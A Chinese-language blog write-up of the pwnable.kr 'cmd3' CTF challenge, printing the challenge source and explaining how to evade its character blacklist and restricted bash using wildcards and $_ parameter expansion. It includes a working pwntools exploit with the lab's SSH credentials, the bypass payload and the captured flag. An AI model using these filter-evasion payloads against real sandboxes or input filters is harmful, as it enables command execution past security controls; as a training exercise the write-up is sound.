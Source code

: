 ```yaml
---
title: pwnable.kr-cmd3
date: 2018-07-11 12:18:00
tags: [pwnable.kr,PWN]
categories: CTF
copyright: true
---
```

# 前言
这是`cmd2`的升级版，题目做了很多限制，我也是花了好长时间才想出来。
# 分析
题目给出了`cmd3.py`的源码
```python
#!/usr/bin/python
import base64, random, math
import os, sys, time, string
from threading import Timer

def rstring(N):
	return ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(N))

password = rstring(32)
filename = rstring(32)

TIME = 60
class MyTimer():
	global filename
        timer=None
        def __init__(self):
                self.timer = Timer(TIME, self.dispatch, args=[])
                self.timer.start()
        def dispatch(self):
                print 'time expired! bye!'
		sys.stdout.flush()
		os.system('rm flagbox/'+filename)
                os._exit(0)

def filter(cmd):
	blacklist = '` !&|"\'*'
	for c in cmd:
		if ord(c)>0x7f or ord(c)<0x20: return False
		if c.isalnum(): return False
		if c in blacklist: return False
	return True

if __name__ == '__main__':
	MyTimer()
	print 'your password is in flagbox/{0}'.format(filename)
	os.system("ls -al")
	os.system("ls -al jail")
	open('flagbox/'+filename, 'w').write(password)
	try:
		while True:
			sys.stdout.write('cmd3$ ')
			sys.stdout.flush()
			cmd = raw_input()
			if cmd==password:
				os.system('./flagbox/print_flag')
				raise 1
			if filter(cmd) is False:
				print 'caught by filter!'
				sys.stdout.flush()
				raise 1

			os.system('echo "{0}" | base64 -d - | env -i PATH=jail /bin/rbash'.format(cmd.encode('base64')))
			sys.stdout.flush()
	except:
		os.system('rm flagbox/'+filename)
		os._exit(0)
```
从源码中可以看出一下限制：
 - 程序使用了一个过滤函数`filter`。该函数不允许输入中带有`0-9a-zA-Z`和`` !&|"\'*`的字符，并且输入必须在可打印字符的范围内。
 - 通过过滤函数的检查后，输入会被`base64`编码再传入`os.system`函数执行命令。所以这里也无法命令注入。
 - 程序使用`env`命令重写了`PATH`变量开启了新的命令执行环境，并且使用`/bin/rbash`（受限制shell）来执行输入的命令。
题目需要绕过这些限制并读取到`password`然后提交即可getfalg。
先执行一下程序（注意先阅读readme）
```
cmd3@ubuntu:~$ nc 0 9023
total 5268
drwxr-x---  5 root cmd3_pwn    4096 Mar 15  2016 .
drwxr-xr-x 87 root root        4096 Dec 27  2017 ..
d---------  2 root root        4096 Jan 22  2016 .bash_history
-rwxr-x---  1 root cmd3_pwn    1421 Mar 11  2016 cmd3.py
drwx-wx---  2 root cmd3_pwn   24576 Jul 10 20:07 flagbox
drwxr-x---  2 root cmd3_pwn    4096 Jan 22  2016 jail
-rw-r--r--  1 root root     5345137 Jul 10 20:09 log
-rw-r-----  1 root root         764 Mar 10  2016 super.pl
total 8
drwxr-x--- 2 root cmd3_pwn 4096 Jan 22  2016 .
drwxr-x--- 5 root cmd3_pwn 4096 Mar 15  2016 ..
lrwxrwxrwx 1 root root        8 Jan 22  2016 cat -> /bin/cat
lrwxrwxrwx 1 root root       11 Jan 22  2016 id -> /usr/bin/id
lrwxrwxrwx 1 root root        7 Jan 22  2016 ls -> /bin/ls
your password is in flagbox/KG3TSCVOPHSPINJD1N3MOD3T637CLX5L
cmd3$
```
可以看到我们只能执行`jail`目录下的三个程序，其他程序由于需要跨目录执行，必须使用`/`符号，然而在`/bin/rbash`中是不允许命令中带有`/`符号的（关于受限制shell可以参考[rbash - 一个受限的Bash Shell用实际示例说明](https://www.howtoing.com/rbash-a-restricted-bash-shell-explained-with-practical-examples/)）。对于该题目来说只需要执行`cat flagbox/KG3TSCVOPHSPINJD1N3MOD3T637CLX5L`获得password即可。但是要执行该命令需要考虑绕过空格和字母数字，因为这些字符无法通过`filter`函数。接下来只要绕过这些即可。
1. 绕过空格。对于`cat`命令，可以使用`<`符号来代替空格。也可使用其他方法，参考[linux下不用空格执行带参数的5种姿势](https://www.cnblogs.com/sevck/p/6072721.html)。
2. 绕过字符数字。要想绕过最常用最重要的字母数字，必须借用已经有的字母数字。在linux下有很多通配符可以用来指代某些文件，`*`符号被过滤了可以使用`?`（表示该位置必有一个字符）来指代。例如，要指代`jail/cat`可以输入`????/???`即可。当然，如果出现了指代多个文件或目录的情况它一般指代`ls`命令排序后的第一个。但是，对于受限制shell来说使用上面指代的话还是会出现`/`符号导致无法执行，我们必须执行`cat`而不是用路径指代它。这时，需要了解`$_`变量，该变量在shell中指代上次执行的命令，这样我们可以先使用上面的方式执行一遍，然后操作`$_`变量获取它的子串`cat`即可。可以输入`????/???;${__=${_#?????}};`来将`cat`保存在`$___`变量中。对于linux下的环境变量的操作可以参考[https://blog.csdn.net/number_0_0/article/details/73291182](https://blog.csdn.net/number_0_0/article/details/73291182)。要解决`flagbox/KG3TSCVOPHSPINJD1N3MOD3T637CLX5L`这样的长字符串，可以利用`cat`命令来从`/tmp/`（任何用户可读写）目录下的文件读取。例如，将长字符串写入`/tmp/__/1`中，然后执行`$(cat</???/__/?)`这样`$_`变量就存有长字符串了。
下面是exp
```python
from pwn import *

s = ssh(port=2222,user="cmd3",host="pwnable.kr",password="FuN_w1th_5h3ll_v4riabl3s_haha")
poc = "????/???;${__=${_#?????}};$($__</???/__/?);${___=$_};$__<$___"

r = s.run("nc 0 9023")
r.recvuntil("your password is in ")
data = r.recvline().rstrip() #get flagbox/......
s.run("mkdir /tmp/__")
s.run('echo "{0}" >/tmp/__/1'.format(data))
r.recvuntil("cmd3$ ")
r.sendline(poc)
tmp = r.recvuntil("cmd3$ ")
pwd = tmp[-38:-6]
print 'Get pwd: {0}'.format(pwd)
r.sendline(pwd)
print r.recvall()

```
```
root@kali:~/Desktop# python poc.py
[+] Connecting to pwnable.kr on port 2222: Done
[!] Couldn't check security settings on 'pwnable.kr'
[+] Opening new channel: 'nc 0 9023': Done
[+] Opening new channel: 'mkdir /tmp/__': Done
[+] Opening new channel: 'echo "flagbox/9E36W2ZIM8Y0I4GWLPMKPE1GAQPGCMFO" >/tmp/__/1': Done
Get pwd: 5AE535O9P84VCXKWS1PYYRRT8JLD3JQN
[+] Receiving all data: Done (54B)
[*] Closed SSH channel with pwnable.kr
Congratz! here is flag : D4ddy_c4n_n3v3r_St0p_m3_haha

[*] Closed SSH channel with pwnable.kr
[*] Closed SSH channel with pwnable.kr

```
# 总结
这道题目很有意思，主要使用linux下shell的知识，又学到了不少。